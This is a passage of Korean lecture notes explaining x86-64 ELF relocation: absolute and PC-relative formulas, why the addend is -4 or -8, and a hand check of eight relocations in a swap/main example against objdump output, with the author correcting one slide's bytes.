절대 참조는 가장 단순합니다 — 유효 주소(effective address)가 곧 기록된 값입니다.
\[ \text{기록할 값} = \operatorname{addr}(r.\mathrm{symbol}) + r.\mathrm{addend} \]
\[ \text{고칠 위치} = \operatorname{addr}(\mathrm{section}) + r.\mathrm{offset} \]
- 고칠 바이트 수는
R_X86_64_32·R_X86_64_32S가 4,R_X86_64_64가 8입니다. - 슬라이드가 기록할 값 앞에
([un]signed int/long)형 변환을 붙인 것은, 결과를 해당 크기의 부호 없는 수(32), 부호 있는 수(32S), 또는 8바이트 수(64)로 잘라 기록한다는 뜻입니다.
예: swap.c의 int *bufp0 = &buf[0];
bufp0은 초기값이 다른 심볼의 주소인 전역 변수입니다. 컴파일러는 buf의 주소를 모르므로 8바이트를 비워 두고 재배치 항목을 남깁니다(이 컴파일러는 이런 변수를 .data 대신 .data.rel 섹션에 두었습니다).
Disassembly of section .data.rel:
0000000000000000 <bufp0>:
...
0: R_X86_64_64 buf [+0]- 고칠 위치 \(= \operatorname{addr}(\texttt{.data.rel}) + 0\), 곧
bufp0자신의 자리입니다. - 기록할 값 \(= \operatorname{addr}(\texttt{buf}) + 0\). 슬라이드의
[+0]은objdump가 생략한 addend 0을 드러내 적은 것입니다. - 8바이트 전체를
buf의 주소로 채웁니다. 이 값은 명령어가 아니라 데이터이므로 PC가 끼어들 여지가 없고, 그래서 절대 참조입니다. 결과는 2.10절에서 확인합니다.
2.5 R_X86_64_PC32 재배치 (Relocating R_X86_64_PC32)
PC-상대 참조에서는 유효 주소가 “PC + 기록된 값”입니다. 슬라이드의 공식은 다음과 같습니다.
\[ \text{기록할 값} = \operatorname{addr}(r.\mathrm{symbol}) + r.\mathrm{addend} - \underbrace{\bigl(\operatorname{addr}(\mathrm{section}) + r.\mathrm{offset}\bigr)}_{\text{코드 안에서는 } \mathrm{PC} - 4} \]
\[ \text{고칠 위치} = \operatorname{addr}(\mathrm{section}) + r.\mathrm{offset}, \qquad \text{고칠 바이트 수} = 4 \]
슬라이드의 예시는 함수 call 안에서 foo를 호출하는 명령입니다.
Disassembly of section .text:
…
4: e8 00 00 00 00 callq 9 <call+0x9>
5: R_X86_64_PC32 foo-0x4
9:
…왜 이 식이 맞는지 가정에서부터 유도해 보겠습니다. 기호를 줄여 \(S = \operatorname{addr}(r.\mathrm{symbol})\), \(A = r.\mathrm{addend}\), \(P = \operatorname{addr}(\mathrm{section}) + r.\mathrm{offset}\)(고칠 4바이트가 시작하는 주소)이라 하고, 기록할 값을 \(v\)라 하겠습니다.
1단계 (CPU가 하는 계산). 이런 명령을 실행할 때 CPU는 명령에 담긴 32비트 값 \(v\)를 PC에 더해 목적지를 구합니다.
\[ \mathrm{EA} = \mathrm{PC} + v \]
2단계 (PC의 값). 고칠 4바이트는 명령의 맨 끝에 있습니다 — 예시에서 e8이 0x4에, 빈칸이 0x5–0x8에 있고 다음 명령은 0x9에서 시작합니다. 그리고 명령을 실행하는 동안 PC는 이미 다음 명령을 가리킵니다(2.7절). 따라서
\[ \mathrm{PC} = P + 4 \]
슬라이드가 타원으로 묶어 “(PC−4) in the code”라고 적은 것이 바로 이 관계, \(P = \mathrm{PC} - 4\)입니다.
3단계 (목표). 원하는 목적지는 심볼의 주소입니다: \(\mathrm{EA} = S\).
4단계 (풀기). 1–3단계를 연립하면
\[ v = S - \mathrm{PC} = S - (P + 4) = \bigl(S + (-4)\bigr) - P \]
즉 어셈블러가 addend를 \(A = -4\)로 적어 두기만 하면, 링커는 명령어의 구조를 전혀 모른 채 \(v = S + A - P\)만 계산해도 올바른 값을 얻습니다. 거꾸로 검산하면 \(\mathrm{EA} = (P + 4) + (S - 4 - P) = S\)입니다. \(\blacksquare\)
- 예시의
callq 9 <call+0x9>는 빈칸이 0인 상태에서 \(\mathrm{EA} = \mathrm{PC} + 0 = \mathtt{0x9}\)로 계산된 가짜 목적지입니다. - 형 변환
(unsigned int)는 결과를 32비트로 잘라 기록한다는 뜻입니다. 목적지가 호출 위치보다 앞에 있으면 \(v\)가 음수가 되지만, 2의 보수로 기록된 값을 CPU가 부호 있는 수로 읽어 더하므로 문제가 없습니다.
2.6 R_X86_64_PLT32 재배치 (Relocating R_X86_64_PLT32)
R_X86_64_PLT32는 목적지가 심볼 자체가 아니라 심볼의 PLT 항목이라는 점만 다르고, 나머지는 R_X86_64_PC32와 같습니다.
\[ \text{기록할 값} = \operatorname{addr}\bigl(\text{PLT entry}(r.\mathrm{symbol})\bigr) + r.\mathrm{addend} - \bigl(\operatorname{addr}(\mathrm{section}) + r.\mathrm{offset}\bigr) \]
고칠 위치와 바이트 수(4)도 같고, 괄호로 묶인 뒷부분이 코드 안에서 \(\mathrm{PC} - 4\)라는 점도 같습니다. 슬라이드의 예시도 같은 callq 명령에 붙은 5: R_X86_64_PLT32 foo-0x4입니다.
- 2.1절에서 컴파일러가
call foo@PLT라고 쓴 것이 이 타입으로 이어집니다. 함수 호출은 목적지가 나중에 공유 라이브러리로 밝혀질 수도 있으므로, 일단 “PLT를 거쳐 가도 좋다”는 표시를 남기는 것입니다. - 목적지가 같은 실행 파일 안에 정의되어 있으면 링커는 PLT를 거치지 않고 함수 자체의 주소로 계산합니다. 2.11절에서
main의call이swap으로 곧바로 향하는 것이 그 예입니다.
x86-64 System V ABI 문서는 재배치 계산을 다음 기호로 적습니다. 슬라이드의 표기와 나란히 놓으면 다음과 같습니다.
| 기호 | 뜻 | 슬라이드 표기 |
|---|---|---|
| \(S\) | 심볼의 주소 | address of(r.symbol) |
| \(A\) | addend | r.addend |
| \(P\) | 고칠 위치의 주소 | address of(section) + r.offset |
| \(L\) | 심볼의 PLT 항목 주소 | address of PLT entry(r.symbol) |
| 재배치 타입 | 기록할 값 | 바이트 수 |
|---|---|---|
R_X86_64_64 |
\(S + A\) | 8 |
R_X86_64_32 / R_X86_64_32S |
\(S + A\) | 4 |
R_X86_64_PC32 |
\(S + A - P\) | 4 |
R_X86_64_PLT32 |
\(L + A - P\) | 4 |
2.7 인텔 아키텍처의 PC-상대 재배치 (PC-relative Relocations on Intel Architectures)
지금까지 모든 PC-상대 재배치에 따라붙은 -0x4의 정체를 슬라이드가 정면으로 묻습니다 — R_X86_64_PC32와 R_X86_64_PLT32에는 왜 addend −4가 붙는가?
- 명령 \(\mathrm{inst}_i\)를 실행하는 시점에 PC(
%eip,%rip)는 이미 다음 명령 \(\mathrm{inst}_{i+1}\)을 가리키고 있습니다. - 링커는 상대 PC-오프셋을 계산할 때 이 점을 고려해야 합니다.
int main()
{
swap(…);
return 0;
}0000000000000000 <main>:
0: 55 push %rbp
1: 48 89 e5 mov %rsp,%rbp
4: b8 00 00 00 00 mov $0x0, %eax
9: e8 00 00 00 00 callq e <main+0xe>
a: R_X86_64_PLT32 swap-0x4
PC → e: b0 00 00 00 00 mov $0x0, %eax
13: 5d pop %rbp
20: c3 retq
…call의 연산 코드 e8은 0x9에, 채워야 할 4바이트는 0xa–0xd에 있고, 이 명령을 실행하는 순간 PC는 다음 명령의 주소 0xe를 가리킵니다. 슬라이드의 설명대로 PC(0xe)는 재배치 위치(0xa)보다 4바이트 앞서 있으므로, 목적지까지의 거리에서 0xe − 0xa = 4를 빼야 합니다.
\[ v = \mathtt{swap} - \mathtt{0xe} = \mathtt{swap} - (\mathtt{0xa} + 4) = \underbrace{(\mathtt{swap} - 4)}_{S + A} - \underbrace{\mathtt{0xa}}_{P} \]
2.5절의 식에서 \(A = -4\)인 경우와 정확히 같습니다.
addend의 일반형
−4는 재배치 타입에 고정된 상수가 아니라 명령어의 모양에서 나오는 숫자입니다. 2.5절의 유도를 조금 일반화하면, 참조하려는 곳이 심볼 시작에서 \(k\)바이트 떨어져 있고 고칠 필드의 시작에서 명령 끝까지가 \(\mathrm{PC} - P\)바이트일 때
\[ A = k - (\mathrm{PC} - P) \]
입니다. 이 강의에 등장한 PC-상대 재배치를 모두 이 식으로 설명할 수 있습니다.
| 명령 | 목적지 | \(k\) | \(\mathrm{PC} - P\) | \(A\) | 슬라이드의 표기 |
|---|---|---|---|---|---|
call swap (main.o) |
swap |
0 | 4 | −4 | swap-0x4 |
mov bufp0(%rip),%rax (swap.o) |
bufp0 |
0 | 4 | −4 | bufp0-0x4 |
mov %rax,bufp1(%rip) (swap.o) |
.bss + 0 (= bufp1) |
0 | 4 | −4 | .bss-0x4 |
lea로 &buf[1] 계산 (swap.o) |
buf + 4 |
4 | 4 | 0 | buf |
movq $…,bufp1(%rip) (표지 슬라이드) |
.bss + 0 (= bufp1) |
0 | 8 | −8 | .bss-0x8 |
마지막 두 줄이 흥미롭습니다. &buf[1]은 buf에서 4바이트 떨어진 곳이라 \(k = 4\)가 PC 보정 −4와 상쇄되어, addend가 아예 없는 buf로 표시됩니다. 그리고 강의 표지 슬라이드에 장식처럼 실린 코드 조각에는 −4가 아닌 −8이 나옵니다.
1: 48 89 e5 mov %rsp,%rbp
4: 48 c7 05 00 00 00 00 movq $0x0,0x0(%rip)
b: 00 00 00 00
7: R_X86_64_PC32 .bss-0x8
b: R_X86_64_32S buf+0x4
f: 48 8b 05 00 00 00 00 mov 0x0(%rip),%rax
12: R_X86_64_PC32 bufp0-0x4
16: 8b 00 mov (%rax),%eax
18: 89 45 fc mov %eax,-0x4(%rbp)
1b: 48 8b 05 00 00 00 00 mov 0x0(%rip),%rax
1e: R_X86_64_PC32 bufp0-0x4
22: 48 8b 15 00 00 00 00 mov 0x0(%rip),%rdx
25: R_X86_64_PC32 .bss-0x4
29: 8b 12 mov (%rdx),%edx같은 swap 함수를 buf의 주소를 즉값(immediate)으로 직접 넣는 방식으로 컴파일한 결과로, bufp1 = &buf[1];이 0x4의 명령 하나가 되었습니다. 이 명령은 48 c7 05 뒤에 목적지 변위 4바이트(0x7–0xa)와 즉값 4바이트(0xb–0xe)가 차례로 붙은 11바이트짜리입니다.
- 변위 필드는 0x7에서 시작하지만 명령은 0xf에서 끝나므로 \(\mathrm{PC} - P = \mathtt{0xf} - \mathtt{0x7} = 8\)이고, 그래서 addend가 −8입니다.
- 즉값 필드(0xb)에는
&buf[1]의 절대 주소가 들어가야 하므로R_X86_64_32S buf+0x4입니다. 앞 절 표의32S가 실제로 쓰인 예입니다.
같은 −4라도 어셈블러가 명령의 길이를 알고 계산해 넣은 값이며, 명령 뒤에 무엇이 더 붙느냐에 따라 얼마든지 달라집니다.
2.8 재배치 이해하기: main (Understanding Relocation (main))
이제 1.2절의 예제를 처음부터 끝까지 재배치해 봅니다. 이 절의 main.c는 printf를 뺀 간단한 판입니다.
main.c
int buf[2] =
{1,2};
int main()
{
swap();
return 0;
}$ gcc -c main.c swap.c
$ objdump -r -D main.o
Disassembly of section .text:
0000000000000000 <main>:
0: 55 push %rbp
1: 48 89 e5 mov %rsp,%rbp
4: 48 83 ec 10 sub $0x10,%rsp
8: 89 7d fc mov %edi,-0x4(%rbp)
b: 48 89 75 f0 mov %rsi,-0x10(%rbp)
f: b8 00 00 00 00 mov $0x0,%eax
14: e8 00 00 00 00 call 19 <main+0x19>
15: R_X86_64_PLT32 swap-0x4
19: b8 00 00 00 00 mov $0x0,%eax
1e: c9 leave
1f: c3 ret
…
Disassembly of section .data:
0000000000000000 <buf>:
0: 01 00 add %eax,(%rax)
2: 00 00 add %al,(%rax)
4: 02 00 add (%rax),%al
...main의 재배치 항목은 단 하나, 0x14의call에 붙은15: R_X86_64_PLT32 swap-0x4입니다. 2.7절에서 본 모양 그대로입니다..data섹션에는buf의 8바이트01 00 00 00 02 00 00 00이 들어 있습니다.int1과 2를 낮은 자리 바이트부터 적은 것입니다(리틀 엔디언).-D옵션은 데이터 섹션까지 역어셈블하므로,objdump가 이 바이트들을 억지로add명령으로 읽어 보여 줍니다. 슬라이드의 지시대로 그 해석은 무시합니다(ignore these instructions).buf에는 재배치 항목이 없습니다. 초기값이 주소가 아닌 평범한 수이므로 고칠 것이 없습니다.
2.9 재배치 이해하기: swap (Understanding Relocation (swap))
swap.c(1.2절)를 같은 방식으로 들여다봅니다. 슬라이드는 이 출력이 gcc 10.3/11.3으로 만든 것이라고 적어 두었습니다.
$ gcc -c main.c swap.c
$ objdump -r -D swap.o
Disassembly of section .text:
0000000000000000 <swap>:
0: 55 push %rbp
1: 48 89 e5 mov %rsp,%rbp
4: 48 8d 05 00 00 00 00 lea 0x0(%rip),%rax
7: R_X86_64_PC32 buf
b: 48 89 05 00 00 00 00 mov %rax,0x0(%rip)
e: R_X86_64_PC32 .bss-0x4
12: 48 8b 05 00 00 00 00 mov 0x0(%rip),%rax
15: R_X86_64_PC32 bufp0-0x4
19: 8b 00 mov (%rax),%eax
1b: 89 45 fc mov %eax,-0x4(%rbp)
1e: 48 8b 15 00 00 00 00 mov 0x0(%rip),%rdx
21: R_X86_64_PC32 .bss-0x4
25: 48 8b 05 00 00 00 00 mov 0x0(%rip),%rax
28: R_X86_64_PC32 bufp0-0x4
2c: 8b 12 mov (%rdx),%edx
2e: 89 10 mov %edx,(%rax)
30: 48 8b 05 00 00 00 00 mov 0x0(%rip),%rax
33: R_X86_64_PC32 .bss-0x4
37: 8b 55 fc mov -0x4(%rbp),%edx
…
Disassembly of section .bss:
0000000000000000 <bufp1>:
...
Disassembly of section .data.rel:
0000000000000000 <bufp0>:
...
0: R_X86_64_64 buf슬라이드는 C 문장과 재배치 항목을 같은 색으로 칠해 짝지어 두었습니다. 그 대응을 표로 옮기면 다음과 같습니다.
| C 문장 | 명령 (swap.o 안의 위치) |
재배치 항목 | 무엇을 읽거나 쓰는가 |
|---|---|---|---|
bufp1 = &buf[1]; |
4: lea 0x0(%rip),%rax |
7: R_X86_64_PC32 buf |
buf의 두 번째 원소 주소를 계산 |
b: mov %rax,0x0(%rip) |
e: R_X86_64_PC32 .bss-0x4 |
그 주소를 bufp1에 저장 |
|
temp = *bufp0; |
12: mov 0x0(%rip),%rax |
15: R_X86_64_PC32 bufp0-0x4 |
bufp0의 값을 읽음 |
*bufp0 = *bufp1; |
1e: mov 0x0(%rip),%rdx |
21: R_X86_64_PC32 .bss-0x4 |
bufp1의 값을 읽음 |
25: mov 0x0(%rip),%rax |
28: R_X86_64_PC32 bufp0-0x4 |
bufp0의 값을 읽음 |
|
*bufp1 = temp; |
30: mov 0x0(%rip),%rax |
33: R_X86_64_PC32 .bss-0x4 |
bufp1의 값을 읽음 |
int *bufp0 = &buf[0]; |
(.data.rel의 0) |
0: R_X86_64_64 buf |
bufp0의 초기값 = buf의 주소 |
.text의 재배치 6개는 모두R_X86_64_PC32이고, 데이터 쪽의 1개만R_X86_64_64입니다. 코드는 PC-상대로, “주소를 값으로 담는 데이터”는 절대 주소로 처리된다는 2.4–2.5절의 구분이 그대로 보입니다.static인bufp1은 언제나.bss-0x4로, 전역인bufp0은 언제나 이름으로 참조됩니다. 2.1절의i와counter에서 본 것과 같은 규칙입니다.temp는-0x4(%rbp), 즉 스택 프레임 안의 위치로만 접근되며 재배치 항목이 전혀 없습니다. 지역 변수가 링커 심볼이 아니라는 1.1절의 경고를 기계어 수준에서 확인한 셈입니다..bss의bufp1은 내용이...뿐이고 재배치 항목도 없습니다. 초기값이 0이므로 채울 것이 없습니다.
2.10 재배치 전후의 .data (.data Before/After Relocation)
두 목적 파일을 링크해 실행 파일 swap을 만들고, 데이터 쪽이 어떻게 바뀌었는지 봅니다.

.data 쪽의 변화를 위아래로 비교한 그림입니다. 위쪽 상자는 링크 전 swap.o의 모습으로, .bss의 bufp1과 .data.rel의 bufp0 모두 내용이 ...(0)이고, bufp0에는 파란 글씨의 재배치 항목 0: R_X86_64_64 buf — “이 8바이트에 buf의 절대 주소를 써 넣어라” — 가 붙어 있습니다. 파란 아래 화살표와 오른쪽의 두 명령(gcc -o swap main.o swap.o, objdump -r -D swap)이 링크를 나타내고, 아래쪽 상자가 결과 실행 파일입니다. buf는 이제 주소 0x4010에 있고(파란 글씨) 그 내용 01 00 00 00 02 00 00 00이 초기값 1과 2입니다. 바로 뒤 주소 0x4018의 bufp0 자리에는 빨간 네모로 강조된 10 40 00 00 00 00 00 00이 채워져 있으며, 왼쪽의 “Little endian” 화살표가 이 8바이트를 낮은 자리부터 거꾸로 읽어 0x4010, 즉 buf의 주소로 해석하라고 알려 줍니다. 오른쪽에서 가위표로 지운 add · xor 명령들과 “ignore these instructions” 문구는, objdump -D가 데이터 바이트까지 무조건 명령어로 해석해 보여 주므로 그 해석은 무시하라는 뜻입니다. 맨 아래 .bss에는 __bss_start와 bufp1의 주소가 보입니다.buf는 주소 0x4010에,bufp0은 그 바로 뒤 0x4018에 놓였습니다.swap.o의.data.rel이 실행 파일에서는.data에 합쳐졌습니다.bufp0의 8바이트는10 40 00 00 00 00 00 00입니다. 리틀 엔디언(little endian)은 낮은 자리 바이트를 낮은 주소에 두므로, 뒤에서부터 읽으면0x0000000000004010—buf의 주소입니다. 2.4절의 공식대로 계산한 값과 같습니다.
\[ S + A = \operatorname{addr}(\texttt{buf}) + 0 = \mathtt{0x4010} \]
objdump는 이 8바이트를 명령어로 오해해10 40 00/00 00/00 00처럼 끊어 보여 주고, 마지막 한 바이트는...안에 숨겨 버립니다. 슬라이드의 빨간 네모와 괄호로 표시된 여덟 번째00이 그 한 바이트입니다.
이 슬라이드의 .bss 주소(__bss_start 0x4040, bufp1 0x4048)는 다음 슬라이드(0x4020, 0x4028)와 다릅니다. 다음 슬라이드의 기계어가 실제로 참조하는 주소가 0x4028이므로, 아래의 계산은 그쪽을 따릅니다.
2.11 재배치 후의 .text (.text After Relocation)

swap의 .text를 objdump로 풀어 본 것으로, 링크 전에 0으로 비어 있던 자리들이 모두 채워진 모습입니다. 왼쪽 큰 상자에서 main은 주소 0x1125, swap은 0x1145에서 시작합니다. 파란색 e8 07 00 00 00은 main의 call로, 화살표에 붙은 계산 1145 − 113e = 0007이 “호출 대상 swap(0x1145)에서 다음 명령의 주소(0x113e)를 뺀 값”이 그대로 기록되었음을 보여 줍니다. swap 안의 컬러 바이트들도 같은 방식입니다 — 초록 c4 2e 00 00은 4014 − 1150 = 2ec4(buf의 두 번째 원소 주소 0x4014에서 다음 명령 0x1150을 뺀 값), 빨강 d1 2e 00 00은 4028 − 1157 = 2ed1(bufp1), 파랑 ba 2e 00 00은 4018 − 115e = 2eba(bufp0)이고, 보라 be 2e, 노랑 a7 2e, 빨강 ac 2e도 각각 bufp1, bufp0, bufp1까지의 거리입니다. 각 줄 오른쪽의 # 주석은 objdump가 “다음 명령 주소 + 기록된 값”을 계산해 찾아낸 목적지(0x4014, 0x4028, 0x4018)이며, 같은 색은 swap.o의 같은 색 재배치 항목에 대응합니다. 오른쪽 위의 작은 상자는 같은 실행 파일의 .data와 .bss로, 그 목적지들이 실제로 buf(0x4010), bufp0(0x4018), bufp1(0x4028)의 자리임을 확인시켜 줍니다.그림의 화살표 계산은 “목적지 − 다음 명령의 주소”라는 2.7절의 방식입니다. 이번에는 같은 결과를 링커의 방식, 즉 재배치 항목의 네 값과 \(S + A - P\) 공식만으로 재현해 보겠습니다. 먼저 각 목적 파일의 섹션이 실행 파일의 어디에 놓였는지를 그림에서 읽습니다.
| 목적 파일의 섹션 | 실행 파일에서의 시작 주소 | 근거 |
|---|---|---|
main.o의 .text |
0x1125 | main의 주소 |
swap.o의 .text |
0x1145 | swap의 주소 |
main.o의 .data |
0x4010 | buf의 주소 |
swap.o의 .data.rel |
0x4018 | bufp0의 주소 |
swap.o의 .bss |
0x4028 | bufp1의 주소 (swap.o .bss의 0번) |
재배치 항목의 .bss는 실행 파일 전체의 .bss가 아니라 그 목적 파일이 기여한 .bss 조각의 시작을 뜻합니다. 그래서 swap.o의 .bss-0x4는 __bss_start(0x4020)가 아니라 bufp1이 있는 0x4028을 기준으로 계산됩니다. 이제 여덟 개의 재배치를 모두 계산합니다(\(P\) = 섹션 시작 + offset, 검산 열은 “다음 명령 주소 \(P + 4\) + 기록된 값”).
| # | 재배치 항목 | \(P\) | \(S\) | \(A\) | 기록할 값 | 기록된 바이트 | 검산 |
|---|---|---|---|---|---|---|---|
| ① | main.o 15: R_X86_64_PLT32 swap-0x4 |
0x113a | 0x1145 | −4 | 0x7 | 07 00 00 00 |
0x113e + 0x7 = 0x1145 (swap) |
| ② | swap.o 7: R_X86_64_PC32 buf |
0x114c | 0x4010 | 0 | 0x2ec4 | c4 2e 00 00 |
0x1150 + 0x2ec4 = 0x4014 (buf의 두 번째 원소) |
| ③ | swap.o e: R_X86_64_PC32 .bss-0x4 |
0x1153 | 0x4028 | −4 | 0x2ed1 | d1 2e 00 00 |
0x1157 + 0x2ed1 = 0x4028 (bufp1) |
| ④ | swap.o 15: R_X86_64_PC32 bufp0-0x4 |
0x115a | 0x4018 | −4 | 0x2eba | ba 2e 00 00 |
0x115e + 0x2eba = 0x4018 (bufp0) |
| ⑤ | swap.o 21: R_X86_64_PC32 .bss-0x4 |
0x1166 | 0x4028 | −4 | 0x2ebe | be 2e 00 00 |
0x116a + 0x2ebe = 0x4028 (bufp1) |
| ⑥ | swap.o 28: R_X86_64_PC32 bufp0-0x4 |
0x116d | 0x4018 | −4 | 0x2ea7 | a7 2e 00 00 |
0x1171 + 0x2ea7 = 0x4018 (bufp0) |
| ⑦ | swap.o 33: R_X86_64_PC32 .bss-0x4 |
0x1178 | 0x4028 | −4 | 0x2eac | ac 2e 00 00 |
0x117c + 0x2eac = 0x4028 (bufp1) |
| ⑧ | swap.o 0: R_X86_64_64 buf |
0x4018 | 0x4010 | 0 | 0x4010 | 10 40 00 00 00 00 00 00 |
(절대 주소이므로 PC 무관) |
한 줄만 식으로 풀어 적으면 다음과 같습니다(③).
\[ P = \mathtt{0x1145} + \mathtt{0xe} = \mathtt{0x1153}, \qquad S + A - P = \mathtt{0x4028} + (-4) - \mathtt{0x1153} = \mathtt{0x2ed1} \]
여덟 개 모두가 그림의 바이트와 정확히 일치합니다. ①의 PLT32는 swap이 같은 실행 파일 안에 있으므로 PLT 항목이 아니라 swap 자체의 주소(\(S = \mathtt{0x1145}\))로 계산되었고, 그 결과가 그림의 call 1145 <swap>입니다. ②는 addend가 0인데도 목적지가 buf가 아닌 buf+4(0x4014)가 되는데, 2.7절에서 본 대로 \(k = 4\)와 PC 보정 −4가 상쇄된 결과입니다.
2.12 링커가 보는 것 (What the Linker Sees)
마지막 슬라이드는 지금까지의 과정을 링커의 시점에서 다시 그립니다.

swap.o를 재배치 전후로 비교한 그림입니다. 왼쪽 “Before relocation” 상자의 Section .text는 swap 함수의 기계어를 16진 바이트로 늘어놓은 것일 뿐이며, 그 사이사이 색깔 있는 00 00 00 00 여섯 묶음이 주소가 들어갈 빈자리입니다. Section .data.rel의 8바이트(bufp0)도 전부 0입니다. 그 아래 Section .rel.text와 Section .rel.data가 재배치 항목 목록으로, 각 줄의 색이 위쪽 빈자리의 색과 짝을 이룹니다 — 초록 7: buf, 빨강 e: .bss-4, 파랑 15: bufp0-4, 보라 21: .bss-4, 노랑 28: bufp0-4, 빨강 33: .bss-4, 하늘색 0: R_X86_64_64 buf입니다. 오른쪽 “After relocation” 상자에서는 같은 자리가 같은 색의 값 c4 2e, d1 2e, ba 2e, be 2e, c6 2e, ac 2e와 10 40 00 00 00 00 00 00으로 채워져 있고, 나머지 검은 바이트는 한 개도 바뀌지 않았습니다. 오른쪽 아래의 문장 “The linker does not have (and does not require) any information about the machine code!”가 결론입니다. 링커는 이 바이트들이 어떤 명령인지 해독하지 않고, 재배치 항목이 가리키는 위치의 바이트만 공식대로 덮어씁니다.- 재배치 전의
.text는 링커에게 의미 없는 바이트 배열입니다. 링커는55가push %rbp라는 것도,48 8d 05가lea라는 것도 모릅니다. - 링커가 가진 것은 재배치 항목의 목록뿐이고, 항목마다 어디를(offset) 어떤 공식으로 몇 바이트(type) 누구를 기준으로(symbol) 얼마나 보정해(addend) 채울지가 적혀 있습니다.
- 슬라이드의 섹션 이름
.rel.text,.rel.data는 단순화한 표기입니다. x86-64 목적 파일에서 addend를 가진 재배치 섹션의 실제 이름은.rela.text,.rela.data.rel처럼.rela로 시작합니다.
슬라이드의 결론 그대로, 링커는 기계어에 대한 정보를 갖고 있지 않으며 필요로 하지도 않습니다. 이것이 가능한 이유는 명령어에 대한 지식이 모두 어셈블러 쪽에서 재배치 항목 안으로 옮겨져 있기 때문입니다. 필드가 몇 바이트인지는 type이, 필드 뒤로 명령이 몇 바이트 더 이어지는지는 addend(−4, 또는 즉값이 뒤따르면 −8)가 대신 말해 줍니다. 링커는 그 값들을 \(S + A\) 또는 \(S + A - P\)에 넣고 결과를 지정된 위치에 덮어쓸 뿐입니다. 덕분에 같은 링커가 어떤 명령어의 어떤 필드든 — 심지어 명령어가 아닌 데이터(bufp0)라도 — 똑같은 방법으로 처리할 수 있습니다.
노란색으로 칠해진 자리(swap.o의 0x28–0x2b, 재배치 항목 28: R_X86_64_PC32 bufp0-4)가 슬라이드에는 c6 2e 00 00으로 적혀 있지만, 앞 절 그림의 실제 역어셈블 결과(0x116a의 48 8b 05 a7 2e 00 00)와 손계산(표의 ⑥)은 모두 a7 2e 00 00입니다. c6 2e라면 다음 명령 주소 0x1171에 더했을 때 0x4037이 되어 어떤 변수도 가리키지 않습니다. 나머지 다섯 자리와 .data.rel의 값은 앞 절과 일치합니다.
3. 요약 (Summary)
강의가 스스로 정리한 결론은 다음과 같습니다.
- 심볼 해석(Symbol Resolution)
- 링킹과 로딩의 첫 단계입니다.
- 심볼이 사용될 때마다, 그 사용이 어느 정의된 심볼을 가리키는지 결정합니다.
- (예전에는) 미묘한 오류의 근원이었습니다.
- 전역 · 로컬 · 외부 심볼, 강한 · 약한 심볼을 구분합니다.
- 심볼 데이터를 ELF 섹션에 배정합니다:
.text,.data,.bss.
- 심볼 재배치(Symbol Relocation)
- 목적 파일들을 하나의 실행 파일 또는 라이브러리로 병합합니다.
- 컴파일 시점에 알 수 없었던 주소·오프셋이 올바른 메모리 위치를 가리키도록 재배치합니다.
- 우리가 관심을 두는 재배치는 두 가지입니다.
- PC-상대 (
R_X86_64_PC32/R_X86_64_PLT32) - 절대 (
R_X86_64_32[S]/R_X86_64_64)
- PC-상대 (
- 인텔 아키텍처에서 PC는 항상 다음 명령을 가리킨다는 점을 기억하십시오.
정리하며 (Closing Remarks)
이번 강의의 논증 사슬을 단계별로 압축하면 다음과 같습니다.
| 단계 | 내용 | 근거 |
|---|---|---|
| ① 분할 컴파일이 남기는 빈칸 | 컴파일러는 파일 하나만 보므로 다른 모듈의 심볼도, 최종 주소도 모른다 — 그 자리를 00 00 00 00으로 비우고 재배치 항목을 남긴다 |
objdump -r -d linking.o |
| ② 심볼의 세 종류 | 전역(정의 + 공개) · 외부(참조만, 정의는 남이) · 로컬(static, 모듈 전용). 스택의 지역 변수는 심볼이 아니다 |
Linker Symbols, readelf -s |
| ③ 강도 | 기본은 전부 강하다 — 초기화하지 않은 전역 변수도. 약한 심볼은 #pragma weak처럼 명시할 때만 생긴다 |
Symbol Strength |
| ④ 섹션 배정 | 함수 → .text, 0이 아닌 전역 → .data, 0·미초기화 → .bss, 외부 → UNDEFINED. -fcommon이면 미초기화 전역은 COMMON |
Assignment of Symbols to Sections |
| ⑤ 해석 규칙 | 강한 심볼 중복은 오류, COMMON 밖의 강한 심볼이 COMMON을 이기고, COMMON끼리는 임의 선택, 약한 심볼은 강한 심볼에 양보 | Linker’s Symbol Rules 1–4 |
| ⑥ 규칙의 틈 | 이름만 같은 COMMON 전역이 조용히 합쳐져 라이브러리가 평문 비밀번호를 읽는다. -fno-common은 우리 쪽 컴파일만 바꾸므로, COMMON으로 빌드된 라이브러리 앞에서는 규칙 2 때문에 무력하다 |
coupang.c + trim.c |
| ⑦ 해석의 교훈 | 전역 변수를 피하고, 써야 한다면 static · 초기화 · extern |
Resolution Take-Aways |
| ⑧ 섹션 병합 | 각자 주소 0에서 시작하던 섹션을 종류별로 이어 붙이면 객체 사이의 상대 위치가 확정된다. .bss는 파일에서 크기 0 |
Relocating Code and Data |
| ⑨ 재배치 항목 | (offset, type, symbol, addend) 네 값이 “어디를, 어떤 공식으로, 누구를 기준으로, 얼마나 보정해” 채울지를 전부 담는다 | Elf64Rela |
| ⑩ 두 가지 공식 | 절대 \(S + A\), PC-상대 \(S + A - P\) (PLT32는 \(S\) 대신 PLT 항목 \(L\)) | Relocating R_X86_64_64/32[S], PC32, PLT32 |
| ⑪ addend −4의 정체 | CPU의 PC는 이미 다음 명령을 가리키므로, 필드 위치 \(P\)에서 명령 끝까지의 거리를 빼 둔다 — 즉값이 뒤따르면 −8 | PC-relative Relocations on Intel Architectures |
| ⑫ 손으로 검산 | main.o · swap.o의 재배치 8개를 공식대로 계산하면 실행 파일의 바이트와 정확히 일치한다 |
.data / .text After Relocation |
| ⑬ 링커는 기계어를 모른다 | 링커는 바이트 배열과 재배치 항목만 보고 덮어쓴다. 명령어 형식에 대한 지식은 어셈블러가 type과 addend에 담아 넘긴다 | What the Linker Sees |